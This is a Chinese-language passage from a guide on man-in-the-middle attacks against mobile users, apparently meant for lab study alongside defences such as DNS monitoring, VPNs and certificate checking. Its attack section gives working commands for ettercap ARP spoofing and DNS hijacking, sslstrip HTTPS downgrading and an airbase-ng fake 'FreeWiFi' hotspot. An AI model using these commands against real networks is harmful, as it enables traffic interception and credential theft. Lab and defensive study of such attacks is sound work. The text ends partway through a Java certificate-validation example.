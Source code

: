 ### 2.3 DNS监控
- **DNS查询监控**：通过监控DNS查询，检测是否存在DNS劫持。
  ```bash
  dig example.com
  ```
- **使用DNSCrypt**：通过加密DNS查询，防止DNS劫持。
  ```bash
  dnscrypt-proxy
  ```

### 2.4 Wi-Fi安全检测
- **Wi-Fi热点检测**：使用工具检测是否存在伪造的Wi-Fi热点。
  ```bash
  airodump-ng wlan0
  ```
- **使用VPN**：通过VPN加密所有网络流量，防止MITM攻击。
  ```bash
  openvpn --config client.ovpn
  ```

## 3. 攻击步骤与实验环境搭建指南

### 3.1 实验环境搭建
- **设备**：一台Kali Linux攻击机，一台Android手机，一个Wi-Fi路由器。
- **工具**：Wireshark、tcpdump、ettercap、sslstrip。

### 3.2 攻击步骤
1. **ARP欺骗**：
   - 使用ettercap进行ARP欺骗，将流量重定向到攻击机。
     ```bash
     ettercap -T -q -M arp:remote /192.168.1.1// /192.168.1.2//
     ```
2. **SSL/TLS剥离**：
   - 使用sslstrip将HTTPS连接降级为HTTP。
     ```bash
     sslstrip -l 8080
     ```
3. **DNS劫持**：
   - 使用ettercap进行DNS劫持，将域名解析到攻击机。
     ```bash
     ettercap -T -q -M dns /192.168.1.1// /192.168.1.2//
     ```
4. **Wi-Fi热点伪造**：
   - 使用airbase-ng创建伪造的Wi-Fi热点。
     ```bash
     airbase-ng -e "FreeWiFi" -c 6 wlan0
     ```

### 3.3 检测与监控
1. **网络流量监控**：
   - 使用Wireshark捕获并分析网络流量，检测异常流量模式。
     ```bash
     wireshark
     ```
2. **SSL/TLS证书验证**：
   - 在移动应用中实现严格的证书验证，防止证书伪造攻击。
     ```java
     // Android示例
     SSLContext sslContext = SSLContext.getInstance("TLS");
     sslContext.init(null, new TrustManager[] { new X509TrustManager() {
         @Override
         public void checkClientTrusted(X509Certificate[] chain, String authType) throws CertificateException {}